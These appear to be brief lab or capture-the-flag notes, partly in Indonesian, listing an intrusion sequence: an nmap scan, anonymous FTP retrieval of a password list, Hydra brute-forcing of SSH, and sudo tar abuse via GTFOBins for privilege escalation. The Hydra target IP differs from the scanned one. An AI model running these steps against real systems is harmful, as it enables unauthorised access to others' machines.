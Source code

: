 nmap 10.10.74.138
nano user.txt => isi dengan user yang ditemui
ftp 10.10.74.138
    user:anonymous
        ftp> ls
        ftp> passive (is cannot ls)
        ftp> get locks.txt
hydra -L user.txt -P locks.txt ssh://10.10.10.1 -t 4
sudo -l
    (tar)
gtfobins
